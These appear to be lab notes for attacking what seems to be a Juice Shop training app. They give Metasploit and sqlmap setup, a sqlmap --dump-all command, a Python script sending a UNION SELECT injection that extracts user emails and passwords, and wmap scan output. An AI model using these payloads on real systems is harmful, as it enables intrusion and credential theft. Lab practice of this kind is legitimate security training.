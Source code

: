 Metasploit + Python Setup


docker run -t -i kalilinux/kali-linux-docker /bin/bash
apt-get update && apt-get install metasploit-framework
apt-get install python3-pip
pip3 install --user pymetasploit3

msfrpcd -P changeme123 -S
(opens port on 55553)

service postgresql start
(starts postgresql service)

msfdb init
(connects metasploit with postgresql)

git clone https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
cd sqlmap-dev
python3.7 sqlmap.py -u 'http://juice-shop-charles/rest/product/search?q=something' -p 'q' --dbms='sqlite' --level=3 --risk=3 --dump-all --technique U --union-cols 8 --fresh-queries --flush-session --union-char='x' --batch
(scan with sqlmap)
(do get request with proper parameters)
import requests

url = "http://juice-shop-charles.us-west1-a.securethebox.us/rest/product/search/"

querystring = {"q":"something%27%29%29%20UNION%20ALL%20SELECT%20NULL,email,password,NULL,NULL,NULL,NULL,NULL%20from%20users--%0A"}

headers = {
    'User-Agent': "PostmanRuntime/7.13.0",
    'Accept': "*/*",
    'Host': "juice-shop-charles.us-west1-a.securethebox.us",
    'accept-encoding': "gzip, deflate",
    'Connection': "keep-alive"
    }

response = requests.request("GET", url, headers=headers, params=querystring)

print(response.text)







load wmap
wmap_sites -a http://nginx-modsecurity-charles
wmap_run -t

[*] Module auxiliary/scanner/http/http_version
[*] Module auxiliary/scanner/http/frontpage_login
[*] Module auxiliary/scanner/http/host_header_injection
[*] Module auxiliary/scanner/http/options
[*] Module auxiliary/scanner/http/robots_txt
[*] Module auxiliary/scanner/http/scraper
[*] Module auxiliary/scanner/http/svn_scanner
[*] Module auxiliary/scanner/http/trace
[*] Module auxiliary/scanner/http/vhost_scanner
[*] Module auxiliary/scanner/http/webdav_internal_ip
[*] Module auxiliary/scanner/http/webdav_scanner
[*] Module auxiliary/scanner/http/webdav_website_content
[*] 
=[ File/Dir testing ]=
============================================================
[*] Module auxiliary/scanner/http/backup_file
[*] Module auxiliary/scanner/http/brute_dirs
[*] Module auxiliary/scanner/http/copy_of_file
[*] Module auxiliary/scanner/http/dir_listing
[*] Module auxiliary/scanner/http/dir_scanner
[*] Module auxiliary/scanner/http/dir_webdav_unicode_bypass
[*] Module auxiliary/scanner/http/file_same_name_dir
[*] Module auxiliary/scanner/http/files_dir
[*] Module auxiliary/scanner/http/http_put
[*] Module auxiliary/scanner/http/prev_dir_same_name_file
[*] Module auxiliary/scanner/http/replace_ext
[*] Module auxiliary/scanner/http/soap_xml
[*] Module auxiliary/scanner/http/trace_axd
[*] Module auxiliary/scanner/http/verb_auth_bypass
[*] 
=[ Unique Query testing ]=
============================================================
[*] Module auxiliary/scanner/http/blind_sql_query
[*] Module auxiliary/scanner/http/error_sql_injection
[*] Module auxiliary/scanner/http/http_traversal